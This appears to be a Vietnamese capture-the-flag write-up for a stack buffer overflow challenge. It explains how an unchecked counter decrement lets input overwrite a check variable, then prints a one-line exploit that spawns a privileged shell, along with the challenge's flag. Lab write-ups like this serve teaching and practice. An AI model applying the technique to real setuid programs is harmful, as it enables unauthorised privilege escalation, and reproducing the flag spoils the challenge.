



# ELF x86 - Stack buffer overflow basic 3

```c
#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
#include <stdlib.h>
 
void shell(void);
 
int main()
{
 
  char buffer[64];
  int check;
  int i = 0;
  int count = 0;
 
  printf("Enter your name: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 64)
        printf("Oh no...Sorry !\n");
      if(check == 0xbffffabc)
        shell();
      else
        {
            read(fileno(stdin),&i,1);
            switch(i)
            {
                case '\n':
                  printf("\a");
                  break;
                case 0x08:
                  count--;
                  printf("\b");
                  break;
                case 0x04:
                  printf("\t");
                  count++;
                  break;
                case 0x90:
                  printf("\a");
                  count++;
                  break;
                default:
                  buffer[count] = i;
                  count++;
                  break;
            }
        }
    }
}
 
void shell(void)
{
  setreuid(geteuid(), geteuid());
  system("/bin/bash");
}
```

Đây là code luôn hoạt động chính của chương trình, chương trình có một vòng while vô tận và nếu biến `check == 0xbffffabc`, chương trình gọi hàm `shell()` và cho chúng ta shell.

Ta nhận thấy biến `count` của chúng ta thuộc kiểu dữ liệu int, như vậy nếu `count < 0` thì ta vẫn pass được điều kiện `count < 64`, case 0x08 `count--` mà không kiểm tra giá trị `count`. Vì vậy ta có thể lợi dụng để ghi đè các giá trị trên stack nằm trước biến `buffer`, mục tiêu của chúng ta là biến `check`.

Kiểm tra với gdb, ta thấy biến `check` nằm ở vị trí `ebp – 0x50`



Biến buffer ở vị trí `ebp – 0x4c`, tức ngay sau biến `check`



Như vậy ta chỉ cần điền 4 byte đầu là 0x08 để biến `count = -4`, sau đó tiến hành ghi đè giá trị `0xbffffabc` vào biến `check` là thành công.

```bash
cat <(python2 -c "print '\x08' * 4 + '\xbc\xfa\xff\xbf'") - | ./ch16
```



flag là: `Sm4shM3ify0uC4n`
